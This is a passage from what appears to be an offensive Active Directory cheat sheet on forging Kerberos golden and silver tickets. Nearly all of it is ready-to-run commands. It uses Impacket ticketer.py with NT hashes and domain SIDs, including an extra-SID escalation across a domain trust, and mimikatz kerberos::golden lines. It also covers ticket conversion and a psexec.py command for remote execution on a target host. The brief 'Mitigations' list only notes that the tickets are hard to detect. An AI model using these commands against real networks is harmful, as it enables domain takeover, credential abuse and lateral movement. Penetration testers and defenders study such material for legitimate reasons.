 ```powershell
# Convert the ticket kirbi to ccache with kekeo
misc::convert ccache ticket.kirbi

# Alternatively you can use ticketer from Impacket
./ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da

ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519
./ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519

export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME

# NOTE: You may need to comment the proxy_dns setting in the proxychains configuration file
./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

If you need to swap ticket between Windows and Linux, you need to convert them with `ticket_converter` or `kekeo`.

```powershell
root@kali:ticket_converter$ python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter$ python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```

Mitigations:

- Hard to detect because they are legit TGT tickets
- Mimikatz generate a golden ticket with a life-span of 10 years

### Pass-the-Ticket Silver Tickets

Forging a Service Ticket (ST) require machine account password (key) or NT hash of the service account.

```powershell
# Create a ticket for the service
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```
